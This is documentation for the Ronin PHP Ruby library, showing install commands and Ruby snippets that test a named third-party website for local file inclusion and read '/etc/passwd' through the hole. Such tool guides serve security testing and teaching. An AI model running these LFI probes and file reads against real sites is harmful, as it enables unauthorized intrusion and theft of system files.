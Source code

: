 ```yaml
---
layout: default
title: Using Ronin PHP
---
```


# Using Ronin PHP

The [Ronin PHP](http://ronin-ruby.github.com/docs/ronin-php/) library provides
support for PHP related security tasks, such as Local File Inclusion (LFI)
or Remote File Inclusion (RFI).

Before we can use this library in the Ronin Ruby Console, we must first
install the library. To install the Ronin Web library used in this guide,
simply run the following command:

    $ sudo gem install ronin-php

To start the Ronin Ruby Console, with ronin-php pre-loaded, simply run the
`ronin-php` command:

    $ ronin-php

## Local File Inclusion (LFI)

Test a URL for LFI:

{% highlight ruby %}
url = URI('http://www.e-builds.com/?page=Portfolio')
url.has_lfi?
# => true
{% endhighlight %}

Obtain a [Ronin::PHP::LFI](http://ronin-ruby.github.com/docs/ronin-php/Ronin/PHP/LFI.html)
object which can be used to access files or finger-print the web server:

{% highlight ruby %}
lfi = url.first_lfi
{% endhighlight %}

Request a local file as a `String`:

{% highlight ruby %}
lfi.get('/etc/passwd')
{% endhighlight %}

Request a local file as a [Ronin::PHP::LFI::File](http://ronin-ruby.github.com/docs/ronin-php/Ronin/PHP/LFI/File.html)
object:

{% highlight ruby %}
lfi.include('/etc/passwd')
# => #<Ronin::PHP::LFI::File:/etc/passwd>
{% endhighlight %}

